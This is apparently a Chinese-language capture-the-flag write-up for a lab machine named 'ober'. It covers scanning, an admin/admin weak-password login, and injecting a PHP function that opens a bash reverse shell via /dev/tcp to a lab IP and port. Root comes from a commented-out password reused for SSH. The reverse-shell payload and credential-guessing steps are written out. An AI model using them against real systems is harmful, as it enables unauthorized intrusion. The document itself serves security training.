

# ober
nmap扫描


80端口扫一下目录,扫到后台,弱口令尝试一下阿达,admin/admin直接进了

有文件上传功能
测试了一下是白名单上传

看了下历史漏洞

msf模块也利用失败


直接在网站添加新页面,写入反弹shell

直接报错

没看懂是什么问题?不支持exec?
看了下原因
```
紧随其后的 == 之后的部分是 ​​PHP 代码区块​。这个区块的用途非常特定：
​主要目的​：在这个区块内，您应该编写PHP函数定义或类定义，以便在后面的Twig模板区块中调用。
在这个特定的 [PHP] 区块里，原则上您只能编写函数（Function）或常量（Const）的定义，而不能直接写执行语句。
```
```
<?php
function onstart(){
    exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.111.128/4444 0>&1'");
}
?>
```
成功获取shell
接下来提权
sudp -l无法使用,查找一下suid提权

同样没有啥可以用的
看了下开放服务,和端口
没什么想法单数是能拿到数据库用户的

这里看到密码被注释了,猜测不会是root用户的密码吧,试了下ssh登录,还真的登上了

复盘:
看了下别人的思路
拿shell的地方存在twing模板注入

